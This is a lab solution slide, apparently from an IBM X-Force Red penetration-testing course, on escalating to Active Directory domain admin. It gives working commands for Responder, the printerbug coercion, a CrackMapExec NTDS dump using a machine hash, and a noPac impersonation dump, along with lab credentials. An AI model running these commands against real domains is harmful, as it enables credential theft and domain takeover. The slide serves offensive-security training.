

# DA Privilege Escalation > Lab 4 – Solution
We have a domain user, admin on some hosts, but still no domain admin!
Let’s try some of the previous techniques to escalate ourselves to domain admin:
Printerbug
In one window, responder -I eth0 (be sure to reenable your smb server)
python3 /opt/krbrelayx/printerbug.py fmradio.local/backup:backup1@172.16.14.200 yourIP
cme smb 172.16.14.200 -u COLOR-DC\$ -H 7a88862453601bc31be805e09baa7f42 --ntds
noPac
python noPac.py fmradio.local/backup:'backup1' -dc-ip 172.16.14.200 -dc-host color-dc01 --impersonate rod -dump
IBM Security X-Force Red / © 2022 IBM Corporation
61